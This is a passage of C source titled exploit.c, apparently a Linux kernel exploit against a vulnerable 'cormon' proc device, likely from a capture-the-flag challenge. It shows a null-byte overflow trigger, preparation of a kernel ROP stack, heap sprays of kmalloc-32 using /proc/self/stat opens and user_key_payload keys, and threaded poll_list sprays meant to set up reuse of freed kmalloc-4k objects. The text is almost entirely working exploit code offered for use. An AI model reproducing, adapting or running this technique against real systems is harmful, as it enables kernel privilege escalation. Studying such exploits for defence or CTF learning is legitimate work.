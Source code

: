 ```exploit.c
    while(neverend);
  }

  return NULL;
}

void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0; // `write()` above must fail, so clear errno here
}

/*********** main ******************/

int main(int argc, char *argv[]) {
  char *keybuf = malloc(0x5000); // must be >= 0x4330 (low 2byte of single_next())
  puts("[.] Starting exploit.");

  puts("[+] preparing stack for later kROP...");
  save_state();
  krop_stack = mmap((void*)0x10000000, KROP_USTACK_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
  if (krop_stack == MAP_FAILED) errExit("mmap");

  assign_to_core(0);
  if ((cormon_fd = open(DEV_PATH, O_RDWR)) <= 2) errExit("open cormon");

  // Pre-spray kmalloc-32
  puts("[+] pre-spraying kmalloc-32...");
  for (int ix = 0; ix != NUM_PREPARE_KM32_SPRAY; ++ix) {
    if (open("/proc/self/stat", O_RDONLY) <= 2) errExit("prespray");
  }

  // Spray victim `user_key_payload` in kmalloc-32
  puts("[+] Spraying keys...");
  spray_keys(NUM_KEY_SPRAY, 'A');

  // Spray poll_list in kmalloc-32 and kmalloc-4k
  just_fd = open("/etc/hosts", O_RDONLY);
  printf("[+] Spraying poll_list (fd=%d)...\n", just_fd);
  if (just_fd <= 2) errExit("just_fd");

  assign_to_core(1);
  num_threads = 0;
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = ix < NUM_1ST_POLLLIST_ALLOC ? TIMEOUT_POLLFD : 1;;
    arg->num_size = NUM_POLLFD;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Wait some of `poll_list` in kmalloc-4k is freed (these are expected to be reused by cormon_proc_write())
  assign_to_core(0);
  usleep(500 * 1000); // wait threads are initialized
  for(int ix = NUM_1ST_POLLLIST_ALLOC; ix < NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    pthread_join(threads[ix], NULL);
  }
```